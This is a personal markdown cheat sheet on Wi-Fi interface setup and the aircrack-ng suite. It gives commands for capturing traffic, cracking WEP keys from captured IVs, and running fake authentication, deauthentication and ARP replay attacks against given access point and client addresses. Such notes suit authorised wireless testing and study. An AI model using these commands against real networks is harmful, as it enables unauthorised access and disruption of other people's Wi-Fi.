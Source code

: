 # Notes on wifi configs and setup

## Keeping interface names
I was having issues with the external card until adjusting the below.
```bash
$ vim /etc/default/grub
GRUB_CMDLINE_LINUX="net.ifnames=0 biosdevname=0"
```

## Renaming interface (temporary)
Rename target interface to `wlan1` instead of systemd generated name.
```bash
$ iwconfig | grep wlx
wlx9cefd5fd1181  IEEE 802.11  ESSID:off/any 
$ ip link set wlx9cefd5fd1181 down
$ ip link set wlx9cefd5fd1181 name wlan1
$ ip link set wlan1 up
$ systemctl restart network-manager.service
```

## airodump-ng
Find surrounding networks, access points and clients
```bash
$ airodump-ng wlan1
```

Begin collection on target channel, BSSID and recording to file.
  - `-c` Select channel number
  - `-w` Write to file
  - `--bssid` MAC address of access point
  - `--ivs` Save only captured IVs
```bash
$ airodump-ng -c 6 --bssid E0:05:C5:60:2E:65 --ivs -w capture  wlan1
```

## aircrack-ng
Begin cracking IVS file on target BSSID (can perform while airodump-ng is writing).
```bash
$ aircrack-ng capture-01.ivs --bssid E0:05:C5:60:2E:65
```

Invoke PTW WEP cracking method method on an arp replay.
```bash
$ aircrack-ng -z replay_arp-0309-015802.cap
```

## aireplay-ng
Set attack mode [Fake authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication).
  - `-1` Set `-1` count
  - `-o` Number of packets to send at a time
  - `-q` Number of seconds to send keep-alive packets
  - `-e` Filename to write
  - `-a` Target access point MAC address
```bash
$ aireplay-ng -1 180 -o 1 -q 10 -e capture -a A0:21:B7:60:2E:65 wlan1
```

Set attack mode [deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication).
  - `--deauth` Set `deauth` count
  - `-e` Target access point ESSID
  - `-a` Target access point MAC address
  - `-c` Set desitnation MAC address
```bash
$ aireplay-ng --deauth 5 -e access_point -a A0:21:B7:60:2E:65 -c AC:65:21:B7:2E:60 wlan1
```

Set attack mode [ARP request replay attack](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection).
  - `--arpreplay` attack mode
  - `-b` Target access point BSSID
  - `-h` Set source MAC address
  - `-r` Extract packets from target pcap file
  - `-x` Number of packets-per-second
```bash
$ aireplay-ng --arpreplay -b A0:21:B7:60:2E:65 -h AC:65:21:B7:2E:60 wlan1 -r replay_arp-0309-015533.cap -x 100
```

## Sources
[Aircrack-ng Newbie Guide for Linux](https://www.aircrack-ng.org/doku.php?id=newbie_guide)
